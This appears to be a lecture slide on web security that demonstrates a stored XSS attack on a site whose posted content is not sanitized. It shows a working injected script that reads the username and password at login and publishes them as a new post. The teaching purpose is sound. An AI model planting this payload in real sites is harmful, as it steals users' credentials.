

# An XSS attack
Content is not sanitized
Injection possible by posting malicious content
Let is inject the following script that makes the user post his on credentials while logging in

<script>
 var login = document.getElementById("login");
  if (login) {
    login.addEventListener("click", function () {

      var username = document.getElementsByName("username")[0].value;
      var password = document.getElementsByName("password")[0].value;

      var data = '{ "name"  : "' + encodeURIComponent(username) +' ",' +
                 '  "title" : "XSS, I have been owned!",' +
                 '  "text"  : "My password is ' + encodeURIComponent(password) + '"}';

      var req = new XMLHttpRequest();
      req.open('POST', '/post');
      req.setRequestHeader("Content-type", "application/json");
      req.send(data);
    });
  }
</script>

Grab the password
put it in a new post

and post it!